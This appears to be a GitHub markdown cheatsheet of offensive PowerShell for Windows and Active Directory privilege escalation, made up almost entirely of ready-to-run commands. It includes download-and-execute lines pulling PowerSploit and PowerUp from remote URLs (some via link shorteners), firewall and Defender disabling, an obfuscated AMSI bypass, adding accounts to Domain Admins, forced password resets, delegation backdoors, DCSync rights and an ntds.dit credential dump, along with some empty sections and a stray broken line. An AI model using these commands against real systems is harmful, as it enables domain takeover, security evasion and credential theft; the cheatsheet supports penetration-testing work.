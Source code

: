 ```yaml
---
layout: default
title: Offensive Powershell - Part 2 Privilege Escalation
parent: Pentesting
category: Pentesting Windows
grand_parent: Cheatsheets
has_children: true
last-modified: 2021-11-18
---
```

# {{ page.title}}

<!-- vscode-markdown-toc -->
* 1. [PRE-REQUISITE: Installing PowerUp and PowerSploit](#PRE-REQUISITE:InstallingPowerUpandPowerSploit)
* 2. [PRE-REQUISITE: SECURITY TAMPRING](#PRE-REQUISITE:SECURITYTAMPRING)
* 3. [LATERAL MOVEMENT](#LATERALMOVEMENT)
* 4. [PRIVESC](#PRIVESC)
* 5. [TOKEN IMPERSONATION](#TOKENIMPERSONATION)
* 6. [ADD MEMBER](#ADDMEMBER)
* 7. [FORCE PASSWORD CHANGE](#FORCEPASSWORDCHANGE)
* 8. [KERBEROASTING](#KERBEROASTING)
* 9. [ABUSING DELEGATION](#ABUSINGDELEGATION)
* 10. [DUMP NTDS.DIT](#DUMPNTDS.DIT)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='PRE-REQUISITE:InstallingPowerUpandPowerSploit'></a>PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1
```

##  2. <a name='PRE-REQUISITE:SECURITYTAMPRING'></a>PRE-REQUISITE: SECURITY TAMPRING
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles

# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage

# powershell remoting enable / verify (Needs Admin Access)
Enable-PSRemoting

# RDP : enable / disable / check access
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

# WMI remoting as user authenticated on the Da / execution with DC privileges
Set-RemoteWMI -UserName johndoe -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose

# Windows Defender disabling features
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true

# Windows Defender AMSI Bypass  
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

##  3. <a name='LATERALMOVEMENT'></a>LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

##  4. <a name='PRIVESC'></a>PRIVESC
```
Get-Hotfix
```

##  5. <a name='TOKENIMPERSONATION'></a>TOKEN IMPERSONATION

##  6. <a name='ADDMEMBER'></a>ADD MEMBER
```
# OPTION 1
net group "Domain admins" dagreat /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'
```


##  7. <a name='FORCEPASSWORDCHANGE'></a>FORCE PASSWORD CHANGE
```
# OPTION 1
net user dagreat Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity dagreat -AccountPassword $UserPassword -Credential $Cred
```

##  8. <a name='KERBEROASTING'></a>KERBEROASTING
```

```
##  9. <a name='ABUSINGDELEGATION'></a>ABUSING DELEGATION
```
# configure the CD backdoor with proto transition
Get-ADComputer -Identity <ServiceA> | Set-ADAccountControl -TrustedToAuthForDelegation $true
Set-ADComputer -Identity DC01 -Add @{'msDS-AllowedDelegationTo'=@('CIFS/DC01.corp')}

# configure a RBCD backdoor
# ServiceB has 'msDS-AllowedToActOnBehalfOfOtherIdentity' set, pointing to ServiceA
Set-ADComputer <ServiceB> -PrincipalAllowedToDelegateToAccount <ServiceA>

# trigger the backdoor
[Reflection::Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<DAgreat>')
$idToImpersonate.Impersonate()
```

# Set A DCSYNC
```
Add-ObjectAcl -TargetDistinguishedName "dc=<DC01>,dc=local" -PrincipalSamAccountName <sogreatW -Rights DCSync -Verbose
```

##  10. <a name='DUMPNTDS.DIT'></a>DUMP NTDS.DIT
```
ntdsutil.exe "activate instance ntds" "ifm" "Create Full C:\Temp\ntds.dmp" quit quit
```

